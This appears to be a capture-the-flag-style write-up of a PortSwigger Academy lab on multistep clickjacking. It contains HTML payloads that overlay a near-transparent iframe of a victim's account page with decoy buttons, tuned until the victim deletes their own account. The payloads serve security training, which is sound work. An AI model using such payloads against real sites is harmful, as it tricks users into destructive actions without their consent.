 
# 8 - Lab: Multistep clickjacking

This lab has some account functionality that is protected by a CSRF token and also has a confirmation dialog to protect against Clickjacking. To solve this lab construct an attack that fools the user into clicking the delete account button and the confirmation dialog by clicking on "Click me first" and "Click me next" decoy actions. You will need to use two elements for this lab.

You can log in to the account yourself using the following credentials: wiener:peter

Note: The victim will be using Chrome so test your exploit on that browser.

---------------------------------------------

References:

- https://portswigger.net/web-security/csrf

- https://portswigger.net/web-security/clickjacking 

---------------------------------------------

Generated link: https://0a910056047f851e816330fc004400af.web-security-academy.net/



![img](images/8%20-%20Lab:%20Multistep%20clickjacking/1.png)


I took the example from https://portswigger.net/web-security/clickjacking:

```
<head>
	<style>
		#target_website {
			position:relative;
			width:128px;
			height:128px;
			opacity:0.00001;
			z-index:2;
			}
		#decoy_website {
			position:absolute;
			width:300px;
			height:400px;
			z-index:1;
			}
	</style>
</head>
...
<body>
	<div id="decoy_website">
	...decoy web content here...
	</div>
	<iframe id="target_website" src="https://vulnerable-website.com">
	</iframe>
</body>
```

And adapted it to this example:

```
<head>
    <style>
        #target_website {
            position:relative;
            width:100%;
            height:100%;
            opacity:0.0001;
            z-index:2;
            }
        #button1 {
            position:absolute;
            top:530px;
            left:400px;
        }
       #button2 {
            position:absolute;
            top:330px;
            left:570px;
        }
    </style>
</head>
<body>
    <button class="button" id="button1" type="submit">Click me first</button>
    <button class="button" id="button2" type="submit">Click me next</button>
    <iframe id="target_website" src="https://0a910056047f851e816330fc004400af.web-security-academy.net/my-account/">
    </iframe>
</body>
```

If you host it in the exploit server after clicking “Click me first” button it takes to the confirmation page:



![img](images/8%20-%20Lab:%20Multistep%20clickjacking/2.png)

Here, clicking the “Click me next” button the user would be deleted:



![img](images/8%20-%20Lab:%20Multistep%20clickjacking/3.png)

But if you send this, the user does not get deleted, probably because we used width:100% and height:100%, so the payload depends on the screen resolution. I will use a small ifram size with fixed size of 500x600 px:

```
<head>
    <style>
        #target_website {
            position:relative;
            //width:100%;
            //height:100%;
            width:500px;
            height:600px;
            opacity:0.1;
            z-index:2;
            }
        #button1 {
            position:absolute;
            top:495px;
            left:55px;
        }
       #button2 {
            position:absolute;
            top:290px;
            left:200px;
        }
    </style>
</head>
<body>
    <button class="button" id="button1" type="submit">Click me first</button>
    <button class="button" id="button2" type="submit">Click me next</button>
    <iframe id="target_website" src="https://0a910056047f851e816330fc004400af.web-security-academy.net/my-account/">
    </iframe>
</body>
```

Adjust the first button:



![img](images/8%20-%20Lab:%20Multistep%20clickjacking/4.png)

And the second one:



![img](images/8%20-%20Lab:%20Multistep%20clickjacking/5.png)

This time we get the lab solved message!